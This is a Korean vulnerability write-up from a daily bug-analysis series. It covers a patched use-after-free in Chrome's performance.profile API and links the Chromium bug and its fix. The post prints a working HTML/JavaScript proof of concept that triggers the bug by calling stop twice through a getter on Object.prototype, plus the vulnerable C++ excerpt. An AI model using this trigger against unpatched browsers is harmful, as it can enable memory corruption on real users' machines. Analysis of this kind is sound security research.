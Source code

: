 ```yaml
---
title: "[하루한줄] Chrome UAF in StopProfiler"
author: L0ch
tags: [L0ch, uaf, asynchronous, chrome, javascript]
categories: [1day1line]
date: 2020-12-04 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Chrome UAF in StopProfiler](https://bugs.chromium.org/p/chromium/issues/detail?id=1119865)

## Target

Chrome (Operating System: all)

## Explain

CPU 등의 리소스 사용량을 모니터링할 수 있는 `profiler` 객체에서 비동기 처리 키워드를 사용한 UAF 취약점이 발견되었습니다. 

해당 취약점의 POC는 다음과 같습니다.

```jsx
<html>
    <body>
    </body>
    <script>
        function gc() {
            for (var i = 0; i < 0x100000; ++i) {
                var a = new String();
            }
        }
        async function main(){
            var pf = await performance.profile({ sampleInterval: 10 });
            console.log(pf);
            cnt = 0;
            Object.prototype.__defineGetter__("then", ()=>{
                if( cnt == 0){
                    cnt ++;
                    console.log("hello");
                    pf.stop();
                    gc();
                }
            })
            pf.stop();
        }
        main();
    </script>
</html>
```

```jsx
void ProfilerGroup::StopProfiler(ScriptState* script_state,
                                 Profiler* profiler,
                                 ScriptPromiseResolver* resolver) {
...

  auto* trace = ProfilerTraceBuilder::FromProfile(
      script_state, profile, profiler->SourceOrigin(), profiler->TimeOrigin());
  resolver->Resolve(trace);

  if (profile)
    profile->Delete();

  profilers_.erase(profiler);

...
```

`ProfilerGroup::StopProfiler` 함수의 resolve는 사용자 정의 함수를 호출할 수 있습니다. 

비동기 함수로 선언한 `main` 함수에서 `await` 키워드로 `performance.profile` 객체를 선언하고 `Object.prototype.__defineGetter__` 의 사용자 정의 함수와 main에서 `stop` 을 두 번 호출하게 되면  `CpuProfile` 객체가 삭제됩니다. 결과적으로 `CpuProfile` 에서 UAF 취약점을 트리거할 수 있습니다.

이는 간단하지만 높은 심각성의 UAF 취약점으로, Google은 `Profiler::stop` 에서 동기 스크립트 실행을 방지하도록 패치했습니다.

## Reference

[https://chromium-review.googlesource.com/c/chromium/src/+/2373184](https://chromium-review.googlesource.com/c/chromium/src/+/2373184)